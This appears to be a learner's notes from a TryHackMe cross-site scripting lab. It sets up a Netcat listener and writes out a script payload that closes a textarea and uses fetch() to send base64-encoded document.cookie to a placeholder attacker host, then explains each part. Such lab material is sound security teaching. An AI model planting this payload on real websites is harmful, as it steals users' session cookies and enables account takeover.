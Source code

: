 

## Cookies Stealing Payload
Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.

Using the AttackBox, let’s set up a listening server using Netcat. If we want to listen on port 9001, we issue the command `nc -l -p 9001`. The `-l` option indicates that we want to use Netcat in listen mode, while the `-p` option is used to specify the port number. To avoid the resolution of hostnames via DNS, we can add `-n`; moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended. The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

![[Pasted image 20240609233947.png]]

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.

![[Pasted image 20240609234127.png]]
![[Pasted image 20240609234144.png]]
